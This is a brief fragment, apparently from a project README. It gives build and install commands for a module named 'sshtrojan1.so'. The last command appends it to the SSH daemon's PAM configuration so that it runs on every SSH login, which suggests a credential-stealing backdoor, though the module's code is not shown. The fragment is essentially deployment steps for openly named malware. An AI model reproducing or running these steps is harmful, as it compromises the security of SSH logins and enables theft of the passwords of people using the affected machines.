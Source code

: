 `sudo apt install libpam0g-dev`

`make`

`printf "auth optional pam_unix.so nullok_secure audit\nauth optional sshtrojan1.so" >>  /etc/pam.d/sshd`

